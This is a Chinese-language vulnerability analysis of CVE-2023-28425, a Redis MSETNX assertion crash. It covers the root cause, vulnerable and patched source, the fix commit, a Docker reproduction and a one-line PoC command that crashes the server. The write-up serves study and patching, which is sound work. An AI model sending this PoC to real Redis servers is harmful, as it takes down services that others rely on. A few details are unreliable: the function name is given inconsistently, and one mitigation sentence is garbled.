



# CVE-2023-28425 CWE-77&617 Redis DoS

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- **MSETNX：** Redis 提供的一个命令，用于批量设置多个键值对，但只有在所有指定的键都不存在时，才会执行设置操作。如果有任何一个键已经存在，命令将不执行任何操作，并返回 0。它的语法与 `MSET` 相似，区别在于 `MSETNX` 添加了对键是否已存在的检查，确保数据的原子性，只有在所有键都不存在时，才会统一进行设置。
- **CWE-617 Reachable Assertion**

## 漏洞原理

当同一个键被多次传入时，`MSETNX` 会在检查是否存在时设置标志 `SETKEY_DOESNT_EXIST`，然而，这个标志在多次设置相同键时并未更新，导致 Redis 错误地认为键不存在，从而触发断言错误并导致 Redis 进程崩溃。

## 漏洞定位

分析 Redis-7.0.8 源码：

在 src/t_string.c 文件，第 **562** 行`mgetCommand`函数用于实现 `MSET` 和 `MSETNX` 命令。

第 **573** 行，当 `nx` 参数为真时，表示执行 `MSETNX` 命令。函数会遍历所有键，检查是否有任何键已存在于数据库中。如果发现任一键已存在，立即返回 `0`，表示操作失败；否则，在第 **580** 行设置 `setkey_flags` 为 `SETKEY_DOESNT_EXIST`，确保只有在键不存在时才执行设置操作。

但是如果客户端在同一命令中多次声明相同的键，例如 `MSETNX key1 value1 key1 value2`，则在第一次检查时，`key1` 不存在，`setkey_flags` 被设置为 `SETKEY_DOESNT_EXIST`。在第二次设置时，`key1` 已经被声明，但由于 `setkey_flags` 没有被更新，仍然使用 `SETKEY_DOESNT_EXIST` 标志，这就会导致 Redis 进程触发断言错误并崩溃。

```c
// t_string.c 文件，第 562 行
void msetGenericCommand(client *c, int nx) {
    int j;
    int setkey_flags = 0;

    // 检查参数个数是否为偶数
    if ((c->argc % 2) == 0) {
        addReplyErrorArity(c);
        return;
    }

    // ***** 573 行 ***** 处理 NX 标志 ******
    if (nx) {
        for (j = 1; j < c->argc; j += 2) {
            // 如果任一键已存在，则返回 0
            if (lookupKeyWrite(c->db, c->argv[j]) != NULL) {
                addReply(c, shared.czero);
                return;
            }
        }
        // ***** 580 行 ****** 设置标志 *****
        setkey_flags |= SETKEY_DOESNT_EXIST;
    }

    // 执行设置操作
    for (j = 1; j < c->argc; j += 2) {
        c->argv[j + 1] = tryObjectEncoding(c->argv[j + 1]);
        setKey(c, c->db, c->argv[j], c->argv[j + 1], setkey_flags);
        notifyKeyspaceEvent(NOTIFY_STRING, "set", c->argv[j], c->db->id);
    }

    server.dirty += (c->argc - 1) / 2;
    addReply(c, nx ? shared.cone : shared.ok);
}
```


## 漏洞修复


升级到 Redis 7.0.10，或包含提交 `48e0d4788434833b47892fe9f3d91be7687f25c9` 的更高受支持版本。修复从 MSETNX 最终写入循环中移除了不安全的 `SETKEY_DOESNT_EXIST` 优化。因此，即使同一键在一条命令中出现多次，每次写入也会使用正常的键替换语义，同时最初的存在性检查仍保留 MSETNX 的原子行为。

直到升级,否认 `MSETNX` 在应用程序层拒绝包含重复密钥名称的请求。 命令重命名或 ACL 拒绝比试图将单个有效载荷列入黑名单更安全。

```c

void msetGenericCommand(client *c, int nx) {
    int j;


    if ((c->argc % 2) == 0) {
        addReplyErrorArity(c);
        return;
    }

    /* Handle the NX flag. The MSETNX semantic is to return zero and don't
     * set anything if at least one key already exists. */
    if (nx) {
        for (j = 1; j < c->argc; j += 2) {
            if (lookupKeyWrite(c->db,c->argv[j]) != NULL) {
                addReply(c, shared.czero);
                return;
            }
        }

    }

    for (j = 1; j < c->argc; j += 2) {
        c->argv[j+1] = tryObjectEncoding(c->argv[j+1]);
        setKey(c, c->db, c->argv[j], c->argv[j + 1], 0);
        notifyKeyspaceEvent(NOTIFY_STRING,"set",c->argv[j],c->db->id);
    }
    server.dirty += (c->argc-1)/2;
    addReply(c, nx ? shared.cone : shared.ok);
}
```

## 影响范围


Redis：

- 7.0.8 至 7.0.9

## 环境搭建

启动 Docker 环境，Redis 版本为 7.0.8

```txt
CNA:GitHub, Inc.    Base Score:5.5 MEDIUM    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
```

```txt
cpe:2.3:a:redis:redis:7.0.8:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行，连接 Redis

   ```bash
   docker exec -it redis-7.0.8 redis-cli -h 127.0.0.1 -p 6379 
   ```

2. 执行 PoC 语句，可以看到 Redis 服务器关闭了连接

   ```bash
   MSETNX x1 xxx x1 yyy
   ```
   
   

3. 查看容器日志，可以发现 PoC 引发断言失败导致 Redis 崩溃

   ```bash
   docker logs redis-7.0.8
   ```

   

## PoC分析

```bash
# 同一条 MSETNX 里把 x1 写两次
MSETNX x1 xxx x1 yyy
```

MSETNX 尝试批量设置多个键值，`x1` 是键，`xxx` 是其对应的值；x1` 是重复的键，它的值是 `yyy。

## 参考链接


[NVD - CVE-2023-28425](https://nvd.nist.gov/vuln/detail/CVE-2023-28425#range-15830975)

[Avoid assertion when MSETNX is used with the same key twice (CVE-2023… · redis/redis@48e0d47](https://github.com/redis/redis/commit/48e0d4788434833b47892fe9f3d91be7687f25c9)
